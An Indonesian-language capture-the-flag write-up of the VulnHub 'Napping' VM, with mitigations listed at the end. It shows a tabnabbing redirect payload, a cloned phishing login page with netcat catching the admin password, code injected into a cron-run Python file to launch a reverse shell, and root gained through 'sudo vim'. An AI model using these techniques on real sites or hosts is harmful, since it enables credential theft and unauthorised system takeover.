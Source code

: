 ```yaml
---
layout: post
title: Napping
date: 2022-08-30 08:18:00
categories: [writeup, vulnhub]
---
```


# Deskripsi
Napping adalah VM (virtual machine) dari [vulnhub](https://www.vulnhub.com/) yang dibuat vulnerable oleh kerentanan [Tab Nabbing](https://www.grcelearning.com/blog/what-is-tabnabbing-how-it-works-and-what-you-can-do-to-prevent-it). Post ini berisi writeup saya mengenai cara exploit VM tersebut. 

# Reconnaisance & Scanning
1. Scan network untuk mengetahui IP target beserta port yang terbuka menggunakan `Nmap`.
![alt](/blog/pic/napping/1.png)
2. Ditemukan IP target yaitu `172.16.18.130` beserta port http yang terbuka pada port 80. Karena port http terbuka, kita bisa cek website target dan diarahkan ke login page.
![alt](/blog/pic/napping/2.png)
3. Terdapat opsi `Sign up now` untuk daftar user baru. Saya coba buat sebuah akun dummy.
![alt](/blog/pic/napping/3.png)
4. Login menggunakan akun yang telah dibuat dan kita diarahkan ke sebuah site. Terlihat kita bisa input link yang nantinya akan di review oleh admin.
![alt](/blog/pic/napping/4.png)
5. Setelah kita submit link nya, kita juga dapat review link yang sudah kita submit. Jika kita review link yang kita submit, kita akan diarahkan ke tab baru.
![alt](/blog/pic/napping/5.png)
6. Jika kita lihat pada souce code, terlihat web tersebut menggunakan `target='_blank'` untuk membuka link ke tab baru. 
![alt](/blog/pic/napping/6.png)

# Vulnerability
Saya cari informasi mengenai `target='_blank' vulnerability` dan ditemukan vulnerability [Tab Nabbing](https://www.grcelearning.com/blog/what-is-tabnabbing-how-it-works-and-what-you-can-do-to-prevent-it). Jadi jika seseorang meng-klik link yang kita submit, dia akan diarahkan ke tab baru.

Page asli orang tersebut dapat diarahkan ke link yang ditentukan dalam page kita jika kita memiliki script berikut dalam page yang kita submit:
```js
if (window.opener) window.opener.parent.location.replace('link');
if (window.parent != window) window.parent.location.replace('link');
```
> Note : ganti `link` menjadi link yang nantinya akan kita gunakan untuk mengarahkan target ke page kita.

# Exploitation
1. Copy login page untuk phising credential admin.
![alt](/blog/pic/napping/8.png)
2. Buat script payload lalu tempatkan file payload dan file login page yang sudah kita copy dalam satu folder.
![alt](/blog/pic/napping/9.png)
3. Jalankan http server menggunakan python pada directory yang berisi phising login page dan payload sebagai webserver.
![alt](/blog/pic/napping/11.png)
4. Listening menggunakan `netcat` sesuai dengan port yang ada di payload kita, disini saya menggunakan **port 8000**. Tak lama kemudian kita mendapatkan credential admin.
![alt](/blog/pic/napping/10.png)
>  Note : pada password [C%40ughtm3napping123], character `%40` merupakan url encode, jika didecode menjadi character `@`
5. Login melalui `ssh` menggunakan credential admin yang telah kita dapatkan, username = daniel & password = C@ughtm3napping123.
![alt](/blog/pic/napping/12.png)

# Reverse Shell
1. Dengan command `groups` terlihat terdapat 2 group yaitu daniel dan administrators.
2. Cari file yang memiliki attribute group `administrators` dengan command `find / -group administrators -type f 2>/dev/null`.
3. Ditemukan file dengan attribute group `administrators` dalam file yang terdapat pada home directory user `adrian`.
4. File `query.py` terlihat mencatat status web server pada file `site_status.txt` setiap 2 menit.
![alt](/blog/pic/napping/13.png)
5. Edit file `query.py` agar mengeksekusi reverse shell script yang nantinya akan kita buat dengan cara menambahkan:
```python
import os
os.system('/usr/bin/bash /dev/shm/shell.sh')
```
![alt](/blog/pic/napping/13,5.png)
6. Buat reverse shell berupa bash script pada directory `/dev/shm/`.
![alt](/blog/pic/napping/14.png)

# Privilege Escalation
1. Listening pada port sesuai dengan port yang kita pakai pada script reverse shell, disini saya menggunakan **port 7007**.
2. Setelah menerima shell, kita upgrade shell dengan command:
- `python3 -c 'import pty;pty.spawn("/bin/bash")'` lalu tekan **CTRL+Z** agar shell tetap berjalan di background.
- `stty raw -echo;fg` lalu tekan **ENTER** 2x.
- `export TERM=xterm`.
3. Cek SUID dengan command `sudo -l`. Terlihat kita dapat menjalankan `vim` sebagai root tanpa password.
4. Dapatkan akses root melalui vim dengan command `sudo /usr/bin/vim -c ':!/bin/sh'`.
![alt](/blog/pic/napping/15.png)

# Kesimpulan
1. Vulnerability yang ditemukan adalah [Tab Nabbing](https://www.grcelearning.com/blog/what-is-tabnabbing-how-it-works-and-what-you-can-do-to-prevent-it) & Unrestricted sudo for [privilege escalation](https://knowledge-base.secureflag.com/vulnerabilities/broken_authorization/privilege_escalation_linux.html).
2. Solusi:
- Menerapkan [cross-origin opener policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy).
- Menambahkan atribut `rel="noopener"` pada link yang terdapat dalam website.
- Menambahkan [sandbox attribute](https://www.w3schools.com/tags/att_sandbox.asp) pada iframes dalam website.
- Mengimplementasikan isolation policy dengan [fetch metadata](https://www.appsecmonkey.com/blog/fetch-metadata).

> Note : kebanyakan browser modern sudah mem-patch vulnerability Tab Nabbing.

# Refrensi
1. [https://hackerone.com/reports/179568](https://hackerone.com/reports/179568)
2. [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)
3. [https://www.appsecmonkey.com/blog/tabnabbing](https://www.appsecmonkey.com/blog/tabnabbing)
